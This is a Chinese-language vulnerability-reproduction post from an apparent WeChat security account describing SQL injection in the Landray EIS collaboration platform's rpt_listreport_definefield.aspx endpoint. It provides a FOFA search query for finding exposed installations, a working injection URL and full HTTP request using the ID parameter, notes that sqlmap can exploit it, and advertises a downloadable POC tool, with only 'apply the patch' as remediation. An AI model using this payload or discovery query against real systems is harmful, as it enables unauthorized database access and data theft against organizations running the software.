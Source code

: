 #  蓝凌EIS智慧协同平台rpt_listreport_definefield.aspx接口存在SQL注入漏洞 附POC软件   
南风徐来  南风漏洞复现文库   2024-03-03 23:12  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 蓝凌EIS智慧协同平台简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
蓝凌智慧协同平台eis集合了非常丰富的模块，满足组织企业在知识、协同、项目管理系统建设等需求  
## 2.漏洞描述  
  
蓝凌智慧协同平台eis集合了非常丰富的模块，满足组织企业在知识、协同、项目管理系统建设等需求。蓝凌EIS智慧协同平台rpt_listreport_definefield.aspx接口存在SQL注入漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
蓝凌EIS智慧协同平台  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aVgSibmxODlezyKtib99LIGEsmwakaCCynPnzPz6JGuv9Mowia0QkLBPznAnaaiaGoPVSKEY2UCiadtuQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
蓝凌EIS智慧协同平台rpt_listreport_definefield.aspx接口存在SQL注入漏洞  
## 4.fofa查询语句  
  
icon_hash="953405444"||app="Landray-OA系统"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/SM/rpt_listreport_definefield.aspx?ID=2%20and%201=@@version--+  
  
漏洞数据包：  
```
GET /SM/rpt_listreport_definefield.aspx?ID=2%20and%201=@@version--+ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aVgSibmxODlezyKtib99LIGElu6FtO0IOMRzcMiaoScAicxX5gtmDFkrrbjI5SKajL6zsJF3T657kiaUA/640?wx_fmt=jpeg&from=appmsg "null")  
  
可以用SQLmap跑出来  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aVgSibmxODlezyKtib99LIGE4k4H4HZlUz0ziblrJvT0QZmE0UicgPdD4RD4oIpR5pe4OBXf5JUwMO5w/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现107 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aVgSibmxODlezyKtib99LIGEniaicsjtBibtsYKiaMPR155JAmFg66sSeCjtW8qWgP2fCUicpYsOmgY0Yxg/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aVgSibmxODlezyKtib99LIGEaiacQZGDazKwDyaGzNMTLo4znmu3SqiaMbYFcmSJAMRZMJBwN74CQ9MQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aVgSibmxODlezyKtib99LIGEMmiapzDRQgLDBtttG4nEHIoXTp6a4RmVb5E9TtXJyRfJzbqdSzzkmKw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aVgSibmxODlezyKtib99LIGElWIqU1tz89Dyia0Dkum1rE9HhaYyHHx5ENCqNgnf9EjFWliaOMy7vvKw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aVgSibmxODlezyKtib99LIGEicibMXdsV8QCp44UibCEn6Jv711viaR5cSwbrWpsn0VYlPcFqs8ulhzfrQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aVgSibmxODlezyKtib99LIGErRD8ZcD45iapmOUCicaMw51deNeD2XLmbSKExRtfJDiayqQs7VxT0H1icA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
[华天动力OA8000办公系统ntkodownload.jsp存在任意文件读取漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485455&idx=1&sn=17e77b101b7c0617f0cc9aa550747933&chksm=974b8508a03c0c1e8af01d12149948af4af69eb8ca1078333778364ef9a2e9c4d79769ca3d23&scene=21#wechat_redirect)  
  
  
[蓝凌OA wechatLoginHelper存在SQL注入漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485442&idx=1&sn=1dd5f1210b7a66a5852bde27aafdbc1e&chksm=974b8505a03c0c131fe130c035de9c37e9c0bf9c52a284ed05a8b278aa02514be174f3d40464&scene=21#wechat_redirect)  
  
  
  
  
